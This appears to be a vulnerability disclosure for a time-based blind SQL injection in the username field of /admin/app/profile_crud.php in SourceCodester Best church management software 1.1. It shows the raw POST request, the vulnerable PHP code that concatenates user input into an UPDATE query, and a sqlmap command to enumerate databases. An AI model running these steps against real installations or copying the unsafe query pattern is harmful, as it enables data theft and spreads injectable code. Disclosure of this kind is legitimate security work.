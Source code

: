 # Description
A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in `/admin/app/profile_crud.php`. Affected is file `/admin/app/profile_crud.php`,The manipulation of the argument `username` leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

# Request：
```
POST /admin/app/profile_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

update=1&username=*
```

# Affect code:
```
......
if (isset($_POST['update'])) {

	$uploadDir = '../../assets/images/';
	if ($_FILES['image']['tmp_name'] != '') {
		$filepath = "../../assets/images/" . $_FILES["image"]["name"];
		$originalName = basename($_FILES['image']['name']);
		$extension = pathinfo($originalName, PATHINFO_EXTENSION);

		// Generate a new unique file name
		$newName = uniqid() . '.' . $extension;

		// Set the path to the new file location
		$newFilePath = $uploadDir . $newName;

		// Upload the file to the server


		if (move_uploaded_file($_FILES["image"]["tmp_name"], $filepath)) {
			$img = $_FILES["image"]["name"];

			@unlink("../../assets/images/" . $_POST['old_cat_img']);
		}
	} else {
		$img = $_POST['old_cat_img'];
	}


	//echo "UPDATE `login` SET `username`='".$_POST['username']."',`email`='".$_POST['email']."',`mobileno`='".$_POST['mobileno']."',`image`='".$img."' WHERE id='".$_SESSION['id']."' ";exit;
	$stmt = $conn->prepare("UPDATE `login` SET `username`='" . $_POST['username'] . "',`email`='" . $_POST['email'] . "',`mobileno`='" . $_POST['mobileno'] . "',`image`='" . $img . "' WHERE id='" . $_SESSION['id'] . "' ");

	$stmt->execute();



	header("location:../dashboard.php");
}
......
```

# Exploit:
```
python sqlmap.py -r .\1.txt --dbs
```
![图片](https://github.com/user-attachments/assets/0498b616-b4d9-44bc-bad5-09604a1f66ff)

![图片](https://github.com/user-attachments/assets/fd0f9c12-d82c-44e9-8536-ef480d3489c5)
